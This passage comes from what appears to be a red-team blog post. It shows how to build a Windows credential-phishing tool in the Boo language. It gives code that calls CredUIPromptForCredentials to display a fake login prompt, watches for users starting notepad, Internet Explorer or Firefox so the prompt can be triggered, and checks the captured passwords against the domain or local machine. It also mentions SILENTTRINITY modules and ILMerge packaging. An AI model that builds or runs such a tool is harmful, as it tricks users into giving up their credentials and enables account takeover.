 ```python
[DllImport("credui.dll")]
def CredUIPromptForCredentials(creditUR as CREDUI_INFO,
        targetName as string,
        reserved1 as IntPtr,
        iError as int,
        userName as StringBuilder,
        maxUserName as int,
        password as StringBuilder,
        maxPassword as int,
        pfSave as bool,
        flags as CREDUI_FLAGS) as CredUIReturnCodes:
        pass  
```

I like to define an entry point as usual (`C#`):
```python
[STAThread]
def Main(argv as (string)):
```

We need to catch everytime when the user run a process, for this we're going to use `ManagementEventWatcher` and `WqlEventQuery` to do the query:
```python
processes_to_watch as List = ['notepad.exe', 'iexplorer.exe', 'firefox.exe',] 
currentUser as string = System.Security.Principal.WindowsIdentity.GetCurrent().Name
startWatch as ManagementEventWatcher = 
      ManagementEventWatcher(WqlEventQuery('__InstanceCreationEvent',
                                            TimeSpan(0,0,1),
                                            'TargetInstance isa "Win32_Process"'))
startWatch.Start()
```

Now, with `AccountManagement` we can validate the credentials.

```python
context as PrincipalContext
try:
    context = PrincipalContext(ContextType.Domain)
except e as System.DirectoryServices.AccountManagement.PrincipalServerDownException:
    context = PrincipalContext(ContextType.Machine)
validCredentials as bool = context.ValidateCredentials(currentUser, passwordAttempt)
```

Done! Let's try it!

![Credentials](https://raw.githubusercontent.com/davidtavarez/davidtavarez.github.io/master/_images/posts/boolang-credphishing.png)[Boo](https://github.com/boo-lang/boo)

## Conclusion

I really liked **Boo**, I'm aware that the development is not currently active, but I think there are some people trying to take re-activate. I like the syntax, it's between C# and Python. My recomendation is to read the [Wiki](https://github.com/boo-lang/boo/wiki). Also I'm inviting to everybody to give a try to Boo, you won't regret it. I'm currently trying to create some modules for (SILENTTRINITY](https://www.youtube.com/watch?v=bFgINiak2L0) in Boo.

Since the assembly is a .NET assembly we can import it in any .NET project. Also you can use [ILMerge](https://www.microsoft.com/en-us/download/details.aspx?id=17630) to merge the extra DLLs. 